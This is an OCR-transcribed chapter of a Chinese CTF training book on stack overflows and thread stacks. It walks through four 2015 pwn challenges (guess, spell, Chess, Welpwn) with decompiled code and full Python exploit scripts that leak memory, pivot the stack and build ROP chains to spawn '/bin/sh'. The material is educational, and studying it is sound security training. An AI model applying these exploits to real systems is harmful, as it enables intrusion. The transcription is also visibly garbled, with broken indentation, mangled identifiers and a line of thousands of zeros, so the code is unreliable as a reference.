0x0000000077a1ae80 00000000 00000000 00000000 00000000
0x0000000077a1ae90 00000000 00000000 00000000 00000000
0x0000000077a1aea0 00000000 00000000 00000000 00000000
0x0000000077a1aeb0 00000000 00000000 00000000 00000000
0x0000000077a1aec0 00000000 00000000 00000000 00000000
0x0000000077a1aed0 00000000 00000000 00000000 00000000
over
main join 0
main join 1
This is the main process. Over
...

[OCR存疑：上方结果表格原文（长 `<table>` 行）中「at level:13000 … at level:16000 …」一段原 OCR 被截断（原文标「(line truncated to 2000 chars)」），已尽量照原文保留剩余可读的 at level 行；末尾多余「00000000」等行与 `...` 均为原文内容，逐字保留。]

往届比赛中关于线程栈的CTF赛题具体如下：

{Hack.lu-2014} Marrio(PWN)
{xctf-finnal-2015} http(PWN)

???+ tip "本节要点"
    1. 同一进程的多个线程栈布置在同一空间，彼此隔 0x801000，靠保护页隔离；
    2. 线程栈默认 0x800000（`ulimit -s` 可查改），线程间仍可发生内存覆盖；
    3. 两种攻击模式：大范围写改写其他线程栈、递归耗尽栈并越 0x1000 保护页；
    4. 示例核心：grow_stack 递归逼近保护页 → big_stack_func 大栈越界与线程1栈重叠 → 改写其 t_id 跳出死循环。
### 12.6 真题解析

#### 12.6.1 {ZCTF-2015} guess (PWN100)

该题的解题逻辑比较简单，gets 的缓冲区是栈上的，可用任意长度读入，而栈的缓冲区长度是 40，如图 12-33 所示。

```c
char s[40]; // [sp+20h] [bp-40h]@3
__int64 v8; // [sp+48h] [bp-18h]@1

v8 = *MK_FP(_FS_, 40LL);
stream = fopen("flag", "r");
if (stream)
{
    setvbuf(stdin, OLL, 2, OLL);
    setvbuf(stdout, OLL, 2, OLL);
    setvbuf(stderr, OLL, 2, OLL);
    alarm(0x3Cu);
    fseek(stream, OLL, 2);
    v5 = ftell(stream);
    fseek(stream, OLL, 0);
    fgets(: : s, v5 + 1, stream);
    fclose(stream);
    puts("please guess the flag");
    gets(s);
    if (v5 != (unsigned int)strlen(s))
    {
        puts("len error");
        exit(0);
    }
}
```

<div style="text-align: center;">图12-33 guess程序反编译代码</div>

由于直接与flag进行比较，所以这里flag是存于内存中的。由于做了限制，因此必须以“ZCTF{”开头，而且长度一定，所以这里首先

需要根据返回的结果判断长度是否正确。

长度开始为32，后来改为33。

由于栈的前面存在主函数main（int argc，char**argv）的参数值，而这个参数argv[0]就是程序的名字，出现异常时会显示在错误信息的后面，所以只要用特定地址覆盖栈中argv[0]的地址就可以达到任意地址泄露的目的，从而达到泄露原flag信息的目的。

由于“::s”（flag存放的地址）最后会与输入值做异或操作，所以最后只要反异或操作一下就可以了。开始时“ZCTF{”这个地方异或后肯定为0，所以打印的时候，地址应该往后靠一点，如+5。另外，选取的异或数也可能与flag中的相同，存在0截断，所以可以多打印些地址，这里直接选用“b”。我们发现其能够全部泄露出来（第五个5以后的信息）。

代码如下：

```python
#from zio import *
from pwn import *
#target = "./guess"
target = ("115.28.27.103", 22222)

def get_io(target):
    #r_m = COLORED(RAW, "green")
    #w_m = COLORED(RAW, "blue")
        #io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
        #io = process(target, timeout = 9999)

io = remote("115.28.27.103", 22222, timeout = 9999)
return io

def leak_len(io, length):
    io.readuntil("please guess the flag:\n")
    flag_addr = 0x6010C0
    payload = 'a' * length + "\x00"
    # io.gdb_hint()
    io.writeline(payload)

    result = io.readuntil("\\n")
    print result
    # io.close(0)
    if "len error" in result:
        return False
    return True

def pwn(io):
    # io.read_until("please guess the flag:\n")
    io.readuntil("please guess the flag:\n")
    ""
    [stack] : 0x7ffff422210 --> 0x73736575672f2e
(b'./guess')
    !![stack] : 0x7ffff421278 --> 0x7736575672f2e (b'./guess')
    0x73736575672f2e
    [stack] : 0x7ffff422ff0 --> 0x73736575672f2e
(b'./guess')
    !![stack] : 0x7ffff4215e0 --> 0x7736575672f2e (b'./guess')
    0x73736575672f2e
    [stack] : 0x7fffc0eb7bfa --> 0x73736575672f6e
(b'n/guess')
    [stack] : 0x7fffc0eb7ff0 --> 0x73736575672f2e
(b'./guess')
    !![stack] : 0x7fffc0eb6c48 --> 0x7736575672f2e (b'./guess')
    0x73736575672f2e
    arg[0]: 0x7fffc0eb67c0 ('a' <repeats 15 times>...)
    ""
    flag_addr = 0x6010C0 + 5 #+ 3 + 6
    length = 34

payload = "ZCTF{"
payload = payload.ljust(length, 'b')
payload += "\x00"
payload = payload.ljust(0x7ffff421278 - 0x7ffff421150, 'a')
#payload = payload.ljust(0x100, 'a')
payload += p64(flag_addr)
#payload = 'a' * (0x7ffffc0eb68e8 - 0x7ffffc0eb67c0) + p64(flag_addr)
raw_input()
#io.gdb_hint()
#io.writeline(payload)
#payload = 'a' * 0x50
io.writeline(payload)
#io.interact()
io.interactive()
""
#leak length = 9
for i in range(32, 256):
print i
io = get_io(target)
if leak_len(io, i) == True:
break
exit(0)
""
io = get_io(target)
pwn(io)
```

然后进行异或操作即可，代码如下：

```python
a = '0\x07\x03SSS;=\x0cQQ\&=\x16R=
[\x17\x07\x111=\x04\x0e"\x05]\x1fh'
result = []
for i in a:
    result.append(chr(ord(i) ^ ord('b')))
print "".join(result)
```

???+ tip "本节要点"
    1. guess 用 gets 读栈上 40 字节缓冲区，可任意长度读入，flag 存于内存并限制「ZCTF{」开头与定长；
    2. 覆盖栈中 argv[0]（程序名）地址，借异常错误信息实现任意地址泄露 flag；
    3. flag 与输入异或，「ZCTF{」异或后为 0，故打印时地址往后靠（+5），多打印避免 0 截断；
    4. 先爆破长度（32→33），再反异或还原 flag。
#### 12.6.2 {ZCTF-2015} spell (PWN300)

这道题的逻辑还是比较简单的，读取用户数据，然后与从驱动中读到的数据进行对比，若符合要求，则打印flag。

查看驱动代码，可以发现有两个ioctl指令，具体如下。

- 0x80086B01：返回8字节随机数。

- 0x80086B02：返回时间字符串。

spell程序编译代码如图12-34所示。

```c
if ((_DWORD)a3 == 0x80086B01)
{
    get_random_bytes(&v14, 8LL);
    if (!copy_to_user(v8, &v14, 8LL))
        return OLL;
}
else
{
    result = 0xFFFFFE7LL;
    if ((_DWORD)a3 != 0x80086B02)
        return result;
    do_gettimeofday(&v13);
    v11 = 0x088888888888888LL * (unsigned _int64)v13 >> 0x80086B01;
    v12 = (signed _int64)((unsigned _int128)(0x08888888888888_time_to_tm(v13, OLL, &v14));
    sprintf((char *)&v15,
         "%021d:%021d: ",
         v12 - 24 * ((signed _int64)((unsigned _int128)(307111 + 4 * v12 - (v12 << 6));
```

<div style="text-align: center;">图12-34 spell程序反编译代码</div>

在最初的时候会打印一次时间，但是这里只是精确到分钟。

对于用户输入的串，与驱动进行比较时，会进行多轮次比较，确保其长度符合规律。先将长度求出，得到56，每8字节为一组，与驱动中读出的数据进行异或操作，如果每次异或的结果都为“zctfflag”，则表示操作成功。

这里存在一个问题。读取用户输入的时候，会读取len+2字节的长度，而且需要将len+1字节的位置置为“\n”，那么此时如果输入长度刚好为256字节，则可以读取258字节长度对应的内容，如图12-35所示。

```c
puts("Please enter the correct spell, I will give you the flag");
printf("%s", 0x40126ALL); // 0x40126ALL How long of your spell;
fgets(buff, 8, stdin);
len = atoi(buff);
if (len <= 256)
{
    printf("At %s", time);
    printf("%s", 0x40128CLL); // 0x40128CLL you enter the spell;
    spell_buff = (char *)malloc(len + 2);
    fgets(spell_buff, len + 2, stdin);
    spell_buff[len + 1] = 0xA;
    if (strlen(spell_buff) <= 256)
    {
        cpy_4009FD(dest_buff, spell_buff);
        if (ioctl(fd, v13, v10) != 0)
        {
            free(spell_buff);
            close(fd);
            result = OLL;
        }
    }
```

<div style="text-align: center;">图12-35 代码读取部分溢出关键点</div>

在cpy函数中，赋值结束是按照“\n”来确定，所以可以赋值257字节，如图12-36所示。

```c
__int64 __fastcall cpy_4009FD(char *a1, char *spell_buff)
{
    __int64 result; // rax@5
    char *spell_buff_t; // [sp+0h] [bp-20h]@1
    int i; // [sp+1Ch] [bp-4h]@1

    spell_buff_t = spell_buff;
    for (i = 0; ; ++i)
    {
        result = (unsigned __int8)spell_buff_t[i];
        if ((_BYTE)result == '\\'
            break;
        if (spell_buff_t[i] == '\\'
            printf("find", spell_buff_t);
        a1[i] = spell_buff_t[i];
    }
    return result;
}
```

<div style="text-align: center;">图12-36 代码复制部分溢出关键点</div>

而dest_buff缓冲区只有256字节，其后跟着v13，为第二次获取驱动中数据函数ioctl的指令代码，如图12-37所示。

```c
char dest_buff[256]; // [sp+30h] [bp-250h]@1
unsigned _int64 v13; // [sp+130h] [bp-150h]@4
unsigned _int64 request; // [sp+138h] [bp-148h]@4
```

<div style="text-align: center;">图12-37 参数的相对栈偏移</div>

所以可以覆盖v13最低字节，此时如果将其覆盖成0x02，则获取的结果就是8字节的时间，且时间精度是分钟，所以可以将第一次的时间近似看成第二次的时间，从而构造合适的输入数据。

代码具体如下：

```python
from zio import *

target = ("115.28.27.103", 33333)

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    # io = process(target, timeout = 9999)
    return io

def pwn(io):
    io.read_until("How long of your spell:")
    io.writeline("256")
    io.read_until("At ")
    time_info = io.read_until(": ")
    io.read_until("you enter the spell: ")

    time_info = time_info + "\x00"
    info = "zctfflag"
    result = []

    padding = ""
    for i in range(8):
        padding += chr(ord(time_info[i]) ^ ord(info[i]))

    payload = padding * 7
    payload += "\x00"
    payload = payload.ljust(256, 'a')
    payload += "\x02"

    io.writeline(payload)
    io.interact()

io = get_io(target)
pwn(io)
```

???+ tip "本节要点"
    1. spell 比较用户输入与驱动 return 的数据，逐 8 字节异或需全部等于 "zctfflag"（长度 56）；
    2. 溢出点：len≤256 但读 len+2 字节、cpy 按 "\n" 结束可写入 257 字节；
    3. 覆盖 dest_buff 后紧跟的 v13 最低字节为 0x02，把第二次 ioctl 改成返回 8 字节时间（分钟精度）；
    4. 由于两个时间精度都到分钟，用第一次时间反推异或 padding 构 payload。
#### 12.6.3 {Codegate-2015} Chess (PWN700)

程序开启PIE，检测结果如图12-38所示。

{ width="100%" }

<div style="text-align: center;">图12-38 程序开启保护的检测情况</div>

该题的逻辑其实与下象棋差不多，布局如图12-39所示。

{ width="100%" }

<div style="text-align: center;">图12-39 chess程序运行情况</div>

当检测到棋盘上没有k或者K时，判定游戏结束。

该游戏可以这么对应：

p(P) -> 兵、r(R) -> 车、n(N) -> 马、 $ \cdots $、K(K) -> 将，依次类推。

字母的行动也与象棋中的角色一样，但是这里不存在阻挡路线的情况。

输入两点控制行动（from_pos、to_pos），从源点到目的点，游戏双方交替进行。

下面介绍本题用到的检测机制。

1）检测from_pos、to_pos的函数，如图12-40所示。

由图12-40可以看出，数字（行）部分几乎无法利用，列上面的利用空间则比较大，只要是alpha就可以。

2）还有一个比较大的检测函数，下面简单说说其用处，如图12-41所示。

该检测要求from_pos里的数据必须是大小写交叉的，同时

can_move_E3D函数会根据from_pos来检测移动是否符合规矩，比如车

走直线、马走日、象走田等。

```c
signed int __cdecl check_position_124E(char *buff, pos_struc *pos)
{
    signed int result; // eax03

    if ( v3E75(*buff) && (unsigned int)(buff[1] - 0x30) <= 9 )
    {
        pos->col = *buff - 'a';
        pos->row = '8' - buff[1];
        result = 1;
    }
    else
    {
        v3E71("Not a real position...");
        result = 0;
    }
    return result;
}
```

<div style="text-align: center;">图12-40 chess程序检测位合法性的反编译代码</div>

```c
int __cdecl check_move_12C1(char *chess_map, pos_struc *fron_pos, pos_struc *to_pos, int step)
{
    char v4; // al@1
    int result; // eax@2
    char v6; // al@4
    char v7; // al@7

    v4 = get_pos_char_E1A(chess_map, fron_pos);
    if (check_char_valid_DDC(v4))
    {
        if (step || (v6 = get_pos_char_E1A(chess_map, fron_pos), islower_DC2(v6))
        {
            if (!step || (v7 = get_pos_char_E1A(chess_map, from_pos), isupper_DAB(v7)))
            result = can_move_E3D(chess_map, from_pos, to_pos) != 0;
            else
            result = 0;
        }
    }
}
```

<div style="text-align: center;">图12-41 chess程序检测逻辑的反编译代码</div>

只检测源点，没有检测目的点的值是否合法，而且检测点的合法性也存在问题。

真正的移动函数如图12-42所示，其直接将目的位置的值为源点的值。

```c
char *__cdecl nove_11F0(char *chess_nap, pos_struc *fron_pos, pos_struc *to_pos)
{
    char *result; // eax@1

    *((&chess_nap[8 * to_pos->row] + to_pos->col) = *((&chess_nap[8 * from_pos->row] + from_pos->col));
    result = &chess_map[8 * from_pos->row] + from_pos->col;
    *result = '';
    return result;
}
```

<div style="text-align: center;">图12-42 chess程序move函数的反编译代码</div>

查看反编译的结果，可以得到栈的大小和相对位置信息。

main函数的反编译代码如图12-43所示。

玩游戏的函数的反编译代码如图12-44所示。

可以发现，栈信息如下（chess_map中用于存放棋盘上的信息，大小为64字节）：

```text
...
ebp
ret_addr
...
chess_map[0..64]
...
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    char chess_map[64]; // [sp+10h] [bp-40h]@1

    setvbuf(stdout, 0, 2, 0);
    puts("Shall we play a game?\\n");
    init_B50(chess_map);
    play_game_15BD(chess_map);
    puts("Game over");
    return 0;
}
```

<div style="text-align: center;">图12-43 chess程序主函数的反编译代码</div>

```c
int __cdecl play_game_15BD(char *chess_map)
{
    int result; // eax@3
    int i; // [sp+1Ch] [bp-Ch]@1

    for (i = 0; ; i = i == 0)
    {
        result = check_status_1505(chess_map);
        if (result)
            break;
        show_map_C46(chess_map);
        input_run_1379(chess_map, i);
    }
    return result;
}
```

<div style="text-align: center;">图12-44 chess程序主功能函数的反编译代码</div>

所以，如果移动chess_map中的数据，往前可以覆盖到ebp（其实并没有什么用）。

其实，应该查看进入input_run或者show_map的栈信息，如下：

{ width="100%" }

进入show_map中，chess_map参数是根据play_game中的参数得到的，所以可以修改进入play_game时压在栈顶的chess_map参数，这个参数值离chess_map缓冲区的地址不远，相差0x10，因此修改这个地址就可以泄露信息。

泄露信息后应该如何利用呢？由于每次只能覆盖一个字节，通过修改ebp，利用leave_ret指令，可以间接获取控制权。

泄露信息：因为r（车）的移动性比较好，所以一般选用该棋子来进行利用，由于打印棋盘的参数中chess_map缓冲区的距离就是0x10，所以将r移动到左上角以后，再往前面移动16位就可以了（From to: a8->Q8）。

覆盖ebp获取控制权：可以计算出main函数的ebp位置与chess_map

缓冲区的距离为0x18，再往前面移动24位就可以了（From to:a8->J8）。

因为泄露后，棋盘布局比较混乱，不好移动，所以选择先覆盖ebp，然后泄露信息。

利用流程具体如下。

1）覆盖ebp，移动棋子用“R”覆盖ebp的第二个字节，变成“0x****52**”。

2）移动K到棋盘底部，与小k相邻，这样可以方便最后成功泄露信息，因为修改chess_map参数后，棋盘的打印信息会发生变化，一旦检测到棋盘上面没有kK，就会判断游戏结束，所以将两者连在一起往后放，以确保泄露信息的时候游戏依然正常。这样做也为最后结束游戏做好了准备。

3）泄露信息，移动棋子用“r”覆盖chess_map在栈上作为传入参数的最后一个字节，变成“0x*****72”（这个地方选择0x72而不是0x52，就是为了尽量将输出地址往后挪，以便泄露更多的信息）。

4）Spray栈，根据泄露的信息获取system和/bin/sh的地址，构造Payload，一直作为参数进行输入，一旦出现输入错误，由于获取参数的函数是递归进行的，所以栈会不断地往前挪，导致“0x****52**”碰撞的机会比较大（0x52比0x72小是有好处的，防止ebp中该位置的值原来就比0x72小，覆盖不到）。

由于被覆盖的地方必须与原来位置上的值的大小写不一样，所以PIE反而提高了成功的概率。

利用成功的截图如图12-45所示。

{ width="100%" }

<div style="text-align: center;">图12-45 利用成功截图</div>

代码如下：

```python
from zio import *
target = "./chess"#("localhost", 7575)
def get_io(target):
    read_mode = COLORED(RAW, "green")
    write_mode = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = read_mode, print_write = write_mode)
    return io

def from_to(io, from_buff, to_buff):
    io.read_until("From>> " )
    io.write(from_buff + "\n")
    io.read_until("To >> ")
    io.write(to_buff + "\n")

def run_seq(io, seq):
    for item in seq:

from_to(io, item[0:2], item[2:4])

def trim_diff_buff(data):
    buff = data
    for i in range(1, 9):
        info = "%d|" % i
        buff = buff.replace(info, %)
        info = "%d\n" % i
        buff = buff.replace(info, %)
    return buff

def spray_buff(io, base_buff):
    payload = "a" * 8
    while len(payload) + len(base_buff) < 1023:
        payload += base_buff
    # io.gdb_hint()
    for i in range(50):
        from_to(io, payload, payload)

def pwn(io):

    from_buff = ""
    to_buff = ""
    # [ebp + 8] = arg chess_map
    # [0xFFFFd550] = arg 0xFFFFd560

    # change [0xFFFFd560] = 0xFFFFd500 + 'r'

    # chess_map_addr = 0xFFFFd560
    # chess_map_addr_modify = 0xFFFFd572
    # run_buff = 0xFFFFcb20
    # main_ebp = 0xFFFFd548
    # [ebp] = main_ebp = 0xFFFFd548

    seq = []
    seq.append('b2b3')
    seq.append('a8J8')  # modify main_ebp 0x0000xx00

    seq.append('a1a8')  # move 'r' to head
    seq.append('e7e6')
    seq.append('b3b2')
    seq.append('e8e7')

seq.append('a2a3')
seq.append('e7f6')
seq.append('a3a2')
seq.append('f6g5')

seq.append('a2a3')
seq.append('g5h4')
seq.append('a3a2')
seq.append('h4h3')

seq.append('a2a3')
seq.append('h3h2')
seq.append('a3a2')
seq.append('h2h1')

seq.append('b2b3')
seq.append('h1g1')
seq.append('b3b2')
seq.append('g1f1')

seq.append('a8Q8') #modify chess_map_addr

run_seq(io, seq)
#io.interact()
#test
#base_buff = ('a' * 4 * 2 + 'b' * 4 * 2)
#spray_buff(io, base_buff)
#
#io.gdb_hint()

#io.interact()

data = io.read_until(["Invalid move, try again", "move..."])
print "data--"
print data
if "Invalid move, try again" in data:
    io.close()
    return ;

pos_b = data.find("kK")
if pos_b == -1:
    return

pos_b = data.find(" /-----\\\\n") + len(" /-----\\\\n")
pos_e = data.find(" \-----/\n")

origin_data = data
data = data[pos_b:pos_e]

chess_map = trim_diff_buff(data)

pos_b = chess_map.find("kK") + 4

if pos_b > 64 - 12:
    return
stack_offset = 64 - pos_b
print "stack_offset:", stack_offset

print [c for c in chess_map]
pos_b = chess_map.find("kK") + 4

print [c for c in chess_map]
print hex(132(chess_map[pos_b:pos_b + 4]))
print hex(132(chess_map[pos_b+4:pos_b+4 + 4]))
print hex(132(chess_map[pos_b+8:pos_b+8 + 4]))
print hex(132(chess_map[pos_b+0xC:pos_b+0xC + 4]))
#io.gdb_hint()

text_addr = 132(chess_map[pos_b:pos_b + 4])
libc_addr = 132(chess_map[pos_b+12:pos_b+12 + 4])
text_base = text_addr - (0xf7747680 - (0xf77473c8 - 0x13c8))

offset__libc_start_main_ret = 0x19a83
offset_system = 0x0003e800
offset_str_bin_sh = 0x15f9e4

is_local = True
if is_local == False:
    offset__libc_start_main_ret = 0x19a63
    offset_system = 0x0003e360
    offset_str_bin_sh = 0x15d1a9

libc_base =libc_addr - offset__libc_start_main_ret

system_addr = libc_base + offset_system
binsh_addr = libc_base + offset_str_bin_sh

base_buff = 132(system_addr)*2 + 132(binsh_addr)*2

spray_buff(io, base_buff)

print "text_base:", hex(text_base)
print "break_pos:", hex(text_base + 0x1605)
print "system_addr:", hex(system_addr)

print origin_data

kK_pos = pos_b = origin_data.find("kK")
pos_b = origin_data.find("|", pos_b + 1)
while origin_data[pos_b + 2] != '\\n':
    pos_b = origin_data.find("|", pos_b + 1)

line_pos = int(origin_data[pos_b + 1])

K_pos = 8 - (pos_b - (kK_pos + 1))
k_pos = 8 - (pos_b - kK_pos)
from_buff = chr(ord('a') + K_pos) + "%d" % line_pos
to_buff += chr(ord('a') + k_pos) + "%d" % line_pos

print from_buff
print to_buff
from_to(io, from_buff, to_buff)

io.interact()

while True:
try:
    io = get_io(target)
    pwn(io)
except Exception, e:
    pass
else:
    pass
finally:
    io.close()
```

参考：

1) http://blog.naver.com/PostView.nhn?

blogId=mathboy7&logNo=220335795719&categoryNo=O&parentCategoryNo=O&viewDate=&currentPage=1&postListTopCurrentPage=1

2)

https://qoobee.org/~leoc/CTF/2015/codegate/final/chess/

???+ tip "本节要点"
    1. Chess 开 PIE，检测只校验源点且列部分是 alpha 即可，目的点与合法性检测都有缺陷；
    2. move 把目的位置直接赋值成源点值，且每次只能覆盖一个字节，靠改 ebp 借 leave_ret 获取控制权；
    3. 利用四步：R 盖 ebp 第二字节 → k/K 相邻放底部保游戏继续 → r 盖 chess_map 参数末字节泄露 → Spray 栈碰撞出 system+"/bin/sh"；
    4. 因大小写必须不同，PIE 反而提高成功率。
#### 12.6.4 {RCTF-2015} Welpwn(PWN200)

该题明显是栈溢出，不过因为是0字符截断，所以虽然同样是控制返回值和参数，但此题选择只覆盖rbp的最低字节使其为0。这样，在main函数返回时，会进行一次栈转移。

因此在输入的时候构造了一个32字节的ROP，通过栈喷射，可以更大概率地确保栈转移后跳入ROP开始的位置上。welpwn逻辑的反编译代码如图12-46所示。

{ width="100%" }

<div style="text-align: center;">图12-46 welpwn逻辑的反编译代码</div>

完整的exp代码如下：

```python
from zio import *

#target = './welpwn'
target = ('180.76.178.48', 6666)

def exp(target):
    io = zio(target, timeout=10000,
    print_read=COLORED(RAW, 'red'), print_write=COLORED(RAW,
    'green'))
    io.read_until('RCTF\n')

payload = 'a*0x10+'\x00*8

puts_plt = 0x00000000004005A0
puts_got = 0x0000000000601018
pop_rdi_ret = 0x00000000004008A3
main = 0x00000000004007CD

rop =
164(pop_rdi_ret)+164(puts_got)+164(puts_plt)+164(main)

while len(payload) < 1024-len(rop):
    payload += rop
    payload = payload.ljust(1024, 'a')
    io.write(payload)

io.read_until('a*0x10')
d = io.read_until('\\n').strip('\\n')

puts_addr = 164(d.ljust(8, '\\x00'))
print hex(puts_addr)

if puts_addr&0xff! = 0xe30:
    return 0

libc_base = puts_addr-0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000

io.writeline(payload2)
print 'get shell'
io.interact()
exp(target)
```

[OCR存疑：上述 exp 中 `libc_base = puts_addr-0x...` 一行后有超长一串 0（原文如此，疑 OCR 复制出错/截断），照原文逐字保留；`puts_addr&0xff! = 0xe30` 疑为 `puts_addr & 0xff != 0xe30`。]

???+ tip "本节要点"
    1. Welpwn 是栈溢出，但受 0 字符截断限制，只能覆盖 rbp 最低字节为 0，借 main 返回做栈转移；
    2. 输入中构造 32 字节 ROP 并用栈喷射，提高转移后跳入 ROP 起始位置的概率；
    3. ROP 走 puts 泄露 GOT（puts_addr 低位须等于 0xe30），再算 libc 基址；
    4. 用 pop_rdi_ret + puts_got + puts_plt + main 构造循环泄露与二次利用。
## 易错点

!!! warning "易错点"
    1. ==会看 checksec 不等于会利用：NX 默认开启、canary 默认开启==，同一条利用路径在其开启/关闭时结果完全不同，动手前必须先确认保护并选对编译选项。
    2. ==真正需要关注「每次运行都随机、但单次运行同函数值固定」的是 canary==；它只能防 bp/ip 被直接覆盖，泄露 canary 后即可绕过。
    3. ==`leave` 等价 `mov sp,bp; pop bp`，ret 才弹 ip==；搞混 leave/ret 的职责，栈转移与控制流劫持的链就会接错。
    4. 覆盖 bp 时，临时变量按相对 bp 的偏移索引，bp 一变，后续参数/条件判断/危险函数传值都会跟着变——别只盯着返回地址。
    5. 线程栈之间只有保护页隔离、仍处同一内存空间，递归耗尽栈越过保护页就可能发生函数栈重叠改写其他线程数据。
??? note "自测题"
    **基础**
    1. 函数栈上一般存储哪三部分信息？栈顶指针和栈底指针在 x86/x64 下分别叫什么？
    2. `call func` 在汇编层面等价于哪两条指令？
    3. __stdcall、__cdecl、__fastcall 三种调用协议在「栈平衡方」上的区别是什么？
    4. x86 与 x64 的普通函数传参、syscall 传参规则有什么不同？
    5. 什么是栈溢出？栈上可以被利用的三块关键数据分别是什么？
    6. 关闭 NX 和关闭 canary 的编译选项分别是什么？二者默认是开启还是关闭？

    **进阶**
    7. 简述 canary 的工作原理，以及为什么「泄露 canary」就能绕过它。
    8. rop 的构造原理是什么？x86 与 x64 的 rop 在栈布局上有什么关键差异？
    9. 覆盖 bp 的两种利用方向分别是什么？各自依赖什么指令/机制？
    10. 线程栈的两种攻击模式分别是什么？递归耗尽栈的示例中函数栈重叠是如何导致跳出死循环的？

    **参考答案**
    1. 临时变量（含 canary）、返回栈基址 bp、返回地址 ip；栈顶 sp=esp(x86)/rsp(x64)，栈底 bp=ebp(x86)/rbp(x64)。
    2. `push ret_addr; jmp func`。
    3. __stdcall、__fastcall 由被调用函数平衡栈，__cdecl 由调用者平衡栈。
    4. x86 普通函数参数基本压栈，syscall 用 eax 传调用号、ebx~ebp 传前六参；x64 普通函数先占 rdi、rsi、rdx、rcx、r8、r9 六寄存器，syscall 用 rax 传调用号、传参规则同普通函数。
    5. 栈上缓冲区写入数据超出边界、覆盖栈上原有数据，是缓冲区溢出的一种；局部变量、bp、ip。
    6. 关闭 NX 用 `-z execstack`，关闭 canary 用 `-fno-stack-protector`；二者默认都开启。
    7. canary 是函数进入前赋给栈底附近临时变量的值，返回前校验是否被改变，变了就报异常退出；它值每次运行随机会变，但单次运行内各函数通常固定，泄露出来后填入 payload 就能不破坏它而继续覆盖 bp/ip。
    8. rop 原理是把返回地址改成以 ret 结尾的 gadget，用「pop*;…;ret」弹出参数、串联 gadget 并借助 ret 跳转；x86 参数经栈传递、调用后需 pop-ret 清栈，x64 多经寄存器传参、进入函数前要先设置寄存器。
    9. 一种是栈转移（依赖 leave;ret，`mov sp,bp;pop bp;ret` 把 sp 设为 bp 所指值跳转目的栈）；一种是参数索引改变（临时变量按相对 bp 偏移索引，bp 变则后续参数/条件/危险函数传值都变）。
    10. 大范围写改写其他线程栈数据；递归耗尽栈（0x800000）并越 0x1000 保护页。示例中 grow_stack 递归逼近保护页、big_stack_func 申请大栈越界与线程 1 函数栈重叠，改写其局部变量 t_id 为 2，使线程 1 死循环条件 `t_id!=2` 失败、打印 over 跳出。
## 本章思维导图



## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。
- Codegate Chess 参考：https://qoobee.org/~leoc/CTF/2015/codegate/final/chess/
- 参考博客：http://blog.naver.com/PostView.nhn?blogId=mathboy7&logNo=220335795719

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*
